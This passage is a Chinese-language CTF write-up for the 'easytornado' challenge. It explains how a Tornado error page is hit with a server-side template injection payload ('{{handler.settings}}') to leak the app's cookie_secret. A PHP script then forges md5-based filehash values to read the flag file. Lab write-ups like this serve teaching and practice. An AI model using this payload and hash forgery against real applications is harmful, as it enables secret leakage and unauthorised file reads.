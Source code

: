 试图前往 `http://220.249.52.133:31621/file?filename=/fllllllllllllag`

跳转到 `http://220.249.52.133:31621/error?msg=Error`

<img src="easytornado\error.png" width=10% />

> 测试后发现还有一个error界面，格式为`/error?msg=Error`，怀疑存在**服务端模板注入攻击 （SSTI）**
>
> 尝试`/error?msg={{datetime}}` 在Tornado的前端页面模板中，`datetime`是指向`python`中`datetime`这个模块，Tornado提供了一些对象别名来快速访问对象，可以参考Tornado官方文档
>
> <img src="easytornado\datatime.png" style="zoom:60%;" />
>
> 通过查阅文档发现`cookie_secret`在`Application`对象`settings`属性中，还发现`self.application.settings`有一个别名
>
> ```json
> RequestHandler.settings
> An alias for self.application.settings.
> ```
>
> `handler`指向的处理当前这个页面的`RequestHandler`对象， `RequestHandler.settings`指向`self.application.settings`， 因此`handler.settings`指向`RequestHandler.application.settings`。
>
> 构造`payload`获取`cookie_secret`
>
> ```html
> /error?msg={{handler.settings}}
> ```
>
> **--> XCTF Writeups**

<img src="easytornado\handler.settings.png" width=50% />

编写计算`filehash`的代码

```php
<?php

echo "/hints.txt: a68c33bfdef6e15a82c0e1efb8f75b61<br>";
echo "/hints.txt: ".md5("bd8e329b-1065-4e73-92f9-3b2ab8679914".md5("/hints.txt"))."<br>";

echo "/flag.txt: 061ce9130866aded6902f1f97cdd9fb5<br>";
echo "/flag.txt: ".md5("bd8e329b-1065-4e73-92f9-3b2ab8679914".md5("/flag.txt"))."<br>";

echo "/welcome.txt: eccbfd8ca1cd7ee74402c757054f5df8<br>";
echo "/welcome.txt: ".md5("bd8e329b-1065-4e73-92f9-3b2ab8679914".md5("/welcome.txt"))."<br>";

echo md5("bd8e329b-1065-4e73-92f9-3b2ab8679914".md5("/fllllllllllllag.txt"))."<br>";
echo md5("bd8e329b-1065-4e73-92f9-3b2ab8679914".md5("/fllllllllllllag"))."<br>";

?>
```